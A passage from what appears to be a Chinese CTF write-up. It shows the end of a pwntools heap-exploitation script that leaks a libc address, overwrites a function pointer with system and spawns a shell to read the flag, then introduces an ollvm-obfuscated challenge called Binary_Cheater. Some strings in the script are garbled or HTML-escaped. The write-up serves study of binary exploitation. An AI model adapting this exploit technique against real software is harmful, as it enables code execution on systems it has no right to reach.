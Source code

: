 ```
    sh.sendlineafter("&gt;&gt;", "free(`{`0`}`);".format(idx))


def gain(idx, size, content):
    sh.sendlineafter("&gt;&gt;", "gain(`{`0`}`);".format(idx))
    sh.sendlineafter("10100110010111101001011011001110:", str(size))
    sh.sendafter("00101110011101101010011000101110011101101111011011000110", content)


def pwn(sh, elf, libc):
    context.log_level = "debug"
    ToString("01110110100101101000011011100110")
    ToString("00101110100101100010011010100110")
    ToString("11101110111101100001011011001110")
    ToString("10100110101001100100111001100110")
    ToString("00101110100101100001111010100110")
    ToString("01110110111101101001011000101110110001101010111001001110001011101100111001110110100101100000010000100")
    ToString("110100101100011011010000110011011100111011010010010")
    ToString("00101110011101101010011000101110011101101111011011000110")
    gain(0, 0xF00 - 0x100, 'a' * (0xf00 - 0x100))  # 0
    gain(1, 0xB0, 'a' * 0xB0)  # 1
    free(0)
    free(1)
    #gdb.attach(sh)
    gain(4, 0x1e8, p64(0x4043a0) + 'c' * 0x1df + "\n")  # 4
    gain(5, 0xB0, 'a' * 0xb0)
    gain(6, 0x131410c0,  p64(0x131410e0) + p64(0) + p64(0) + p64(0) + p64(0x4040b8) + "\n")
    show(2)
    libc_base = get_address(sh, True, offset=-0x47730, info="libc_base:\t")
    system_addr = libc_base + 0x55410

    edit(2, p64(system_addr) + p64(0x401186))

    sh.sendlineafter("&gt;&gt;", "gain(/bin/sh);")
    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```



## Binary_Cheater

这道题赛后了解到是 FMYY 出的题目，记得上次做 FMYY 出的 NULL_FXCK 的那题，调了一天，现在都还有些阴影。这次这道题目只调了一下午，也算是有进步了吧~

这道题加了一个 ollvm 控制流平坦化，导致程序代码非常的难看。但是这其实不影响我们看程序的大概逻辑，通过题目给出的 hint 也能大概能知道题目的漏洞点。所以对于这道题我们来重点分析程序的利用方法，而不是如何**反 ollvm 控制流平坦化**，这部分内容如果有需要了解的可以看“看雪无名侠大佬的文章”来学习如何使用 Unicorn 来反混淆，关于 Unicorn 的使用方法也可以先学习[使用 unicorn 来自动化解题](https://www.anquanke.com/post/id/246451)这篇文章。
